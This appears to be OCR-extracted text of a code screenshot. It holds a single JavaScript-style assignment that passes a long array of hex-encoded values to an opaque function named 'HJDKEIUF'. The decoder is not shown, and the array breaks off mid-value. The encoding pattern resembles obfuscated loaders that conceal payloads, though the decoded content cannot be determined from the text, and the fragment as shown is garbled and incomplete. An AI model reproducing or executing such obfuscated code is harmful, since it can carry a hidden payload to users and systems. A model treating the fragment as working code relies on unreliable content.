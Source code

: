  let end =
HJDKEIUF(['0xb0c2','0x44c3','0x44c3','0x20c4','0x04c3','0x50c3','0x74c3','0x40c3','0x34c4','0x20c4','0xb0c2','0x34c4','0x38c4','0xe8c2','0x50c3','0x68c3','0x84c3','0x40c3','0x20c3','0x1cc4','0x90c2','0x98c2','0x1cc4','0xa8c2','0x18c3','0x20c3','0x74c3','0x6cc3','0x40c3','0x68c3','0x68c3','0x10c3','0x18c3','0x1cc3','0x1cc4','0xbcc2','0x10c3','0x24c3','0x40c3','0xe8c2','0x50c3','0x68c3','0x84c3','0x40c3','0x20c3','0x38c4','0x48c4','0x34c4','0xc8c2','0x90c2','0x98c2','0x1cc4','0xa8c2','0x18c3','0x20c3','0x74c3','0x6cc3','0x40c3','0x68c3','0x68c3','0x10c3','0x18c3','0x1cc3','0x1cc4','0xccc2','0x10c3','0x74c3','0xbcc2','0x10c3','0x24c3','0x40c3','0xe0c2','0x4cc4','0x4cc4','0xc0c2','0x54c3','0x84c3','0x6cc3','0x30c3','0x28c3','0x84c3','0x04c3','0x18c3','0xc4c2','0x10c3','0x6cc3','0x40c3','0x28c3','0x84c3','0x18c3','0x6cc3','0x50c3','0x14c4','0x44c4','0x30c3','0x24c4','0x34c4','0x38c4','0x40c4','0xf4c2','0x6cc3','0x18c3','0x38c3','0x6cc3','0x30c3','0x20c3','0xbcc2','0x10c3','0x24c3','0x40c3','0x68c3','0x40c4','0x18c4','0xa8c2','0x18c3','0x6cc3','0x40c3','0x38c4','0x10c4','0x2cc4','0x34c4','0x3cc4','0x3cc4','0x34c4','0x74c3','0x18c3','0x78c3','0x40c3','0x6cc3','0x68c3','0x14c3','0x40c3','0x24c3','0x24c3','0x34c4','0xecc2','0x40c3','0x38c3','0x10c3','0x68c3','0x84c3','0x40c3','0x6cc3','0x20c4','0xe8c2','0x28c3','0x14c3','0x40c3','0x44c3','0x80c3','0x24c3','0x40c3','0x44c3','0x04c3','0x30c3','0x68c3','0x08c3','0x34c4','0x20c4','0x04c3','0x30c3','0x68c3','0x08c3','0x9cc2','0x30c3','0x20c3','0x40c3','0x34c4','0x2cc4','0xb0c2','0x44c3','0x20c3','0x10c3','0x1cc3','0x2cc4','0x34c4','0x20c4','0xb0c2','0x28c3','0x84c3','0x10c3','0x18c3','0x1cc3','0x34c4','0x14c4','0x9cc2','0x40c3','0x78c3','0x20c4','0xe8c2','0x28c3','0x14c3','0x40c3','0x44c3','0x80c3','0x24c3','0x40c3','0x44c3','0x04c3','0x30c3','0x68c3','0x08c3','0xb0c2','0x28c3','0x84c3','0x10c3','0x18c3','0x1cc3','0x34c4','0x20c4','0xc0c2','0x54c3','0x40c3','0x28c3','0x80c3','0x84c3','0x40c3','0x34c4','0x38c4','0x40c4','0xf4c2','0x6cc3','0x18c3','0x38c3','0x6cc3','0x30c3','0x20c3','0xbcc2','0x10c3','0x24c3','0x40c3','0x68c3','0x40c4','0x18c4','0xa8c2','0x18c3','0x6cc3','0x40c3','0x18c4','0x28c3','0x18c3','0x6cc3','0x40c3','0x1cc4','0x40c3','0x54c3','0x40c3','0x38c4','0x10c4','0x34c4','0x20c4','0x04c3','0x6cc3','0x10c3','0x38c3','0x38c3','0x40c3','0x6cc3','0x34c4','0x14c4','0x9cc2','0x40c3','0x78c3','0x20c4','0xe8c2','0x28c3','0x14c3','0x40c3','0x44c3','0x80c3','0x24c3','0x40c3','0x44c3','0x04c3','0x30c3','0x68c3','0x08c3','0x04c3','0x6cc3','0x10c3','0x38c3','0x38c3','0x40c3','0x6cc3','0x34c4','0x20c4','0x98c2','0x1cc3','0x28c3','0x40c3','0x34c4','0x20c4','0xb0c2','0x84c3','0x34c4','0x14c4','0xb8c2','0x40c3','0x84c3','0x20c4','0xc4c2','0x30c3','0x84c3','0x40c3','0x10c4','0x1cc4','0xb0c2','0x44c3','0x44c3','0xa0c2','0x10c3','0x1cc3','0x80c3','0x84c3','0x40c3','0x68c3','0x14c4','0x70c4','0x10c4','0x34c4','0x20c4','0xecc2','0x40c3','0x74c3','0x40c3','0x84c3','0x10c3','0x84c3','0x10c3','0x18c3','0x1cc3','0x90c2','0x1cc3','0x84c3','0x40c3','0x6cc3','0x7cc3','0x30c3','0x24c3','0x34c4','0x14c4','0x9cc2','0x40c3','0x78c3','0x20c4','0x04c3','0x10c3','0x20c3','0x40c3','0xe8c2','0x74c3','0x30c3','0x1cc3','0x34c4','0x20c4','0xa0c2','0x10c3','0x1cc3','0x80c3','0x84c3','0x40c3','0x68c3','0x34c4','0x70c4','0x10c4','0x34c4','0x20c4','0xecc2','0x40c3','0x74c3','0x40c3','0x84c3','0x10c3','0x84c3','0x10c3','0x18c3','0x1cc3','0xc4c2','0x80c3','0x6cc3','0x30c3','0x84c3','0x10c3','0x18c3','0x1cc3','0x34c4','0x14c4','0x9cc2','0x40c3','0x78c3','0x20c4','0x04c3','0x10c3','0x20c3','0x40c3','0xe8c2','0x74c3','0x30c3','0x1cc3','0x34c4','0x20c4','0xc4c2','0x30c3','0x50c3','0x68c3','0x34c4','0x68c4','0x7cc4','0x80c4','0x10c4','0x10c4','0x34c4','0x20c4','0xf4c2','0x6cc3','0x10c3','0x1cc3','0x28c3','0x10c3','0x74c3','0x30c3','0x24c3','0x34c4','0x14c4','0x9cc2','0x40c3','0x78c3','0x20c4','0xe8c2','0x28c3','0x14c3','0x40c3','0x44c3','0x80c3','0x24c3','0x40c3','0x44c3','0x04c3','0x30c3','0x68c3','0x08c3','0xf4c2','0x6cc3','0x10c3','0x1cc3','0x28c3','0x10c3','0x74c3','0x30c3','0x24c3','0x34c4','0x20c4','0x00c3','0x68c3','0x40c3','0x6cc3','0x90c2','0x44c3','0x34c4','0x2cc4','0xe8c2','0xd0c2','0xe8c2','0x04c3','0xc0c2','0xa0c2','0x2cc4','0x34c4','0x20c4','0xa4c2','0x18c3','0x38c3','0x18c3','0x1cc3','0x04c3','0x50c3','0x74c3','0x40c3','0x34c4','0xe8c2','0x84c4','0x00c3','0x34c4','0x20c4','0xecc2','0x80c3','0x1cc3','0xa4c2','0x40c3','0x7cc3','0x40c3','0x24c3','0x34c4','0x94c2','0x10c3','0x38c3','0x14c3','0x40c3','0x68c3','0x84c3','0x10c4','0x34c4','0x20c4','0xe8c2','0x40c3','0x84c3','0x84c3','0x10c3','0x1cc3','0x38c3','0x68c3','0x34c4','0x14c4','0x9cc2','0x40c3','0x78c3','0x20c4','0xe8c2','0x28c3','0x14c3','0x40c3','0x44c3','0x80c3','0x24c3','0x40c3','0x44c3','0x04c3','0x30c3','0x68c3','0x08c3','0xe8c2','0x40c3','0x84c3','0x84c3','0x10c3','0x1cc3','0x38c3','0x68c3','0xe8c2','0x40c3','0x84c3','0x34c4','0x20c4','0xb0c2','0x24c3','0x24c3','0x18c3','0x78c3','0xe8c2','0x84c3','0x30c3','0x6cc3','0x84c3','0x90c2','0x3cc3','0x98c2','0x1cc3','0xacc2','0x30c3','0x84c3','0x84c3','0x40c3','0x6cc3','0x10c3','0x40c3','0x68c3','0x34c4','0x20c4','0xc4c2','0x18c3','0x1cc3','0x84c3','0xe8c2','0x84c3','0x18c3','0x74c3','0x90c2','0x3cc3','0xb8c2','0x18c3','0x10c3','0x1cc3','0x38c3','0x98c2','0x1cc3','0xacc2','0x30c3','0x84c3','0x84c3','0x40c3','0x6cc3','0x10c3','0x40c3','0x68c3','0x34c4','0x20c4','0xe8c2','0x84c3','0x30c3','0x6cc3','0x84c3','0xf8c2','0x14c3','0x40c3','0x1cc3','0xb0c2','0x7cc3','0x30c3','0x10c3','0x24c3','0x30c3','0x2cc3','0x24c3','0x40c3','0x34c4','0x20c4','0xc4c2','0x18c3','0x1cc3','0x84c3','0xe8c2','0x84c3','0x18c3','0x74c3','0x98c2','0x1cc3','0x90c2','0x44c3','0x24c3','0x40c3','0xc0c2','0x1cc3','0x44c3','0x34c4','0x20c4','0xc0c2','0x54c3','0x40c3','0x28c3','0x80c3','0x84c3','0x10c3','0x18c3','0x1cc3','0x04c3','0x10c3','0x20c3','0x40c3','0xa4c2','0x10c3','0x20c3','0x10c3','0x84c3','0x34c4','0x14c4','0x9cc2','0x40c3','0x78c3','0x2